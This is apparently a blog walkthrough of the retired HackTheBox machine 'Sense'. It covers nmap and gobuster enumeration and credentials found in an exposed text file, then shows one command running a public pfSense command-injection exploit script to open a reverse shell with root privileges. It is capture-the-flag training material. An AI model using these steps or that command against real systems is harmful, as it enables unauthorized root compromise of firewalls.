 ```yaml
---
title: Sense - HackTheBox Walkthrough
author: Degr4ne
date: 2021-11-06 12:00:00 
categories: [HackTheBox,Linux]
tags: [exploit]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Sense/00-banner.png
  width: 594
  height: 375
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Sense` a retired linuxs machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.

```console
$ cat nmap-scan                                            
# Nmap 7.91 scan initiated Mon Nov  1 10:57:12 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.230.105
Nmap scan report for 10.129.230.105
Host is up (0.12s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.129.230.105/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-favicon: Unknown favicon MD5: 082559A7867CF27ACAB7E9867A8B320F
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Issuer: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-10-14T19:21:35
| Not valid after:  2023-04-06T19:21:35
| MD5:   65f8 b00f 57d2 3468 2c52 0f44 8110 c622
|_SHA-1: 4f7c 9a75 cb7f 70d3 8087 08cb 8c27 20dc 05f1 bb02
|_ssl-date: TLS randomness does not represent time

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  1 10:57:45 2021 -- 1 IP address (1 host up) scanned in 32.82 seconds
```
There only two ports: `80:http` and `443:https`.

## HTTP/HTTPS Enumeration
The 80 port redirect us to 443 which is a pfsense's login form.

![01-web](/assets/img/HTB/Sense/01-web.png)

The [default credentials](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html): `admin/pfsense` doesn't work, so let's try discover new directories using gobuster.

```console
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.129.230.105 -k -t 100 -x php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.230.105
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/11/01 09:32:05 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/themes               (Status: 301) [Size: 0] [--> https://10.129.230.105/themes/]
/stats.php            (Status: 200) [Size: 6690]                                  
/css                  (Status: 301) [Size: 0] [--> https://10.129.230.105/css/]   
/includes             (Status: 301) [Size: 0] [--> https://10.129.230.105/includes/]
/license.php          (Status: 200) [Size: 6692]                                    
/edit.php             (Status: 200) [Size: 6689]                                    
/system.php           (Status: 200) [Size: 6691]                                    
/status.php           (Status: 200) [Size: 6691]                                    
/javascript           (Status: 301) [Size: 0] [--> https://10.129.230.105/javascript/]
/changelog.txt        (Status: 200) [Size: 271]                                       
/classes              (Status: 301) [Size: 0] [--> https://10.129.230.105/classes/]   
/exec.php             (Status: 200) [Size: 6689]                                      
/widgets              (Status: 301) [Size: 0] [--> https://10.129.230.105/widgets/]   
/graph.php            (Status: 200) [Size: 6690]                                      
/tree                 (Status: 301) [Size: 0] [--> https://10.129.230.105/tree/]      
/wizard.php           (Status: 200) [Size: 6691]                                      
/shortcuts            (Status: 301) [Size: 0] [--> https://10.129.230.105/shortcuts/] 
/pkg.php              (Status: 200) [Size: 6688]                                      
/installer            (Status: 301) [Size: 0] [--> https://10.129.230.105/installer/] 
/wizards              (Status: 301) [Size: 0] [--> https://10.129.230.105/wizards/]   
/xmlrpc.php           (Status: 200) [Size: 384]                                       
/reboot.php           (Status: 200) [Size: 6691]                                      
/interfaces.php       (Status: 200) [Size: 6695]                                      
/csrf                 (Status: 301) [Size: 0] [--> https://10.129.230.105/csrf/]      
/system-users.txt     (Status: 200) [Size: 106]                                       
/filebrowser          (Status: 301) [Size: 0] [--> https://10.129.230.105/filebrowser/]
/%7Echeckout%7E       (Status: 403) [Size: 345]                                        
                                                                                       
===============================================================
2021/11/01 09:48:43 Finished
===============================================================
```
The most interesting files are `changelog.txt` and `system-user.txt`. 

![02-txt](/assets/img/HTB/Sense/02-txt.png)

With the second file we get Rohit's credentials.

![03-txt](/assets/img/HTB/Sense/03-txt.png)

User|Password
-|-
rohit | pfsense

# Explotation

Pfsense in vulnerable to a [Command Injection](https://www.exploit-db.com/exploits/43560) so we can use it to get a reverse shell.

![04-vuln](/assets/img/HTB/Sense/04-vuln.png)

How pfSense is running as root the shell that we got is with root privileges.

```console
$ python3 43560.py --rhost 10.129.230.105 --lhost 10.10.14.89 --lport 443 --username rohit --password pfsense
```
![05-root](/assets/img/HTB/Sense/05-root.png)

That’s it for now guys. Until next time.
